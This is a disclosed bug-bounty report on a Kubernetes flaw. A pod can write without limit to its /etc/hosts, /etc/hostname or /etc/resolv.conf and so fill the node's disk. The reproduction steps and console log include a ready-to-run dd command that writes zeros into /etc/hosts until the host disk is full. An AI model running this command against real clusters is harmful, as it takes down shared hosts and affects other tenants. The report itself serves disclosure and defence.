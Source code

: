 # Node disk DOS by writing to container /etc/hosts

## Report Details
- **Report ID**: 867699
- **URL**: https://hackerone.com/reports/867699
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-05-07T07:11:29.039Z
- **Disclosed**: 2020-07-22T01:34:00.937Z

## Reporter
- **Username**: kebe
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: kubernetes

## Vulnerability Information
Report Submission Form

## Summary:
Pod files /etc/hosts, /etc/hostname, /etc/resolve.conf are not readonly.
A normal pod running in kubernetes cluster can kil a host through write data to /etc/hosts.
Not only /etc/hosts, but also /etc/resolve.conf and /etc/hostname can do this.

## Kubernetes Version:
<=1.18

## Component Version:
Docker 19.03

## Steps To Reproduce:

  1. use kubectl create a pod like kubectl run 
  2. run `kubectl exec -it $POD_NAME -- dd if=/dev/zero of=/etc/hosts count=1000000 bs=10M`
  3. run `df -h /var/lib/kubelet` on host that pod running, you can see the disk avaliable space are decreasing until the disk full.

## Supporting Material/References:
```console
[root@kebe-sm-315 ~]# kubectl exec -it rate-c848c5c8b-5b8vm sh
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl kubectl exec [POD] -- [COMMAND] instead.
Defaulting container name to rate.
Use 'kubectl describe pod/rate-c848c5c8b-5b8vm -n default' to see all of the containers in this pod.
/ # df -h
Filesystem                Size      Used Available Use% Mounted on
/dev/mapper/docker-8:16-67108930-710dfe5c781bd17e11968371b9d0f84641a2efde95c68a47eddf9ae518e768d1
                         10.0G     40.3M     10.0G   0% /
tmpfs                    64.0M         0     64.0M   0% /dev
tmpfs                     9.7G         0      9.7G   0% /sys/fs/cgroup
/dev/mapper/centos-root
                         53.0G     28.6G     24.4G  54% /dev/termination-log
/dev/sdb                100.0G     40.9G     59.1G  41% /etc/resolv.conf
/dev/sdb                100.0G     40.9G     59.1G  41% /etc/hostname
/dev/mapper/centos-root
                         53.0G     28.6G     24.4G  54% /etc/hosts
shm                      64.0M      8.0K     64.0M   0% /dev/shm
tmpfs                     9.7G     12.0K      9.7G   0% /var/run/secrets/kubernetes.io/serviceaccount
tmpfs                     9.7G         0      9.7G   0% /proc/acpi
tmpfs                    64.0M         0     64.0M   0% /proc/kcore
tmpfs                    64.0M         0     64.0M   0% /proc/keys
tmpfs                    64.0M         0     64.0M   0% /proc/timer_list
tmpfs                    64.0M         0     64.0M   0% /proc/timer_stats
tmpfs                    64.0M         0     64.0M   0% /proc/sched_debug
tmpfs                     9.7G         0      9.7G   0% /proc/scsi
tmpfs                     9.7G         0      9.7G   0% /sys/firmware

[root@kebe-sm-315 86aae92d-e0f2-4cf5-bb85-039b416f6b66]# ls -al
总用量 12
drwxr-xr-x  5 root root   71 5月   7 12:29 .
drwxr-x--- 50 root root 4096 5月   7 12:29 ..
drwxr-x---  5 root root   55 5月   7 12:31 containers
-rw-r--r--  1 root root  270 5月   7 12:31 etc-hosts
drwxr-x---  3 root root   37 5月   7 12:29 plugins
drwxr-xr-x  4 root root   65 5月   7 12:29 volumes
[root@kebe-sm-315 86aae92d-e0f2-4cf5-bb85-039b416f6b66]# kubectl exec -it rate-c848c5c8b-5b8vm -- dd if=/dev/zero of=/etc/hosts count=100 bs=1M
Defaulting container name to rate.
Use 'kubectl describe pod/rate-c848c5c8b-5b8vm -n default' to see all of the containers in this pod.
100+0 records in
100+0 records out
[root@kebe-sm-315 86aae92d-e0f2-4cf5-bb85-039b416f6b66]# ls -al
总用量 102408
drwxr-xr-x  5 root root        71 5月   7 12:29 .
drwxr-x--- 50 root root      4096 5月   7 12:29 ..
drwxr-x---  5 root root        55 5月   7 12:31 containers
-rw-r--r--  1 root root 104857600 5月   7 15:06 etc-hosts
drwxr-x---  3 root root        37 5月   7 12:29 plugins
drwxr-xr-x  4 root root        65 5月   7 12:29 volumes
```

  * [attachment / reference]

## Impact

If someone create a pod on a public cloud with kubernetes, the host of the provider may panic due to disk full.

## Attachments
No attachments
